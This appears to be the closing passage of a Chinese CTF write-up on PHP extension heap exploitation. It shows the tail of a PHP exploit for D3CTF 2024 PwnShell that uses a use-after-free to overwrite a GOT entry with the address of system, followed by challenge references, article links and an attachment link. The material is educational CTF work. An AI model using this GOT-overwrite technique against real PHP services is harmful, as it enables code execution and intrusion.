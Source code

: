 ```php
removeHacker(13);
addHacker("aaaaaaaaaaaaaaaaaaaaaaaa", "hhhhhhh");
removeHacker(12);
addHacker("aaaaaaaaaaaaaaaaaaaaaaaa", "ffffffff");
editHacker(13, p64(0x18) . "hhhhhhhh" . p64($strlen_got));
editHacker(14, p64($system_addr));
displayHacker(3);

?>

```

题目来源：D3CTF 2024 PwnShell

参考：https://9anux.org/2024/04/29/d3ctf2024/index.html

### 堆UAF：hackphp

‍

题目来源：D3CTF 2021 hackphp

参考：

https://github.com/UESuperGate/D3CTF-Source/blob/master/hackphp/exp.php

https://www.anquanke.com/post/id/235237#h2-5

### UAF：phpmaster

‍

题目来源：第二届长城杯半决赛 phpmaster

参考：https://bbs.kanxue.com/thread-286086.htm

## 参考文章

https://www.anquanke.com/post/id/204404

https://imlzh1.github.io/posts/PHP-So-Pwn/#zend_parse_parameters

https://www.bookstack.cn/read/php7-internal/7-implement.md

https://xuanxuanblingbling.github.io/ctf/pwn/2020/05/05/mixture/


## 题目附件
https://pan.baidu.com/s/1zUoi76y5MoUOYPsVVZvnmQ?pwd=x49f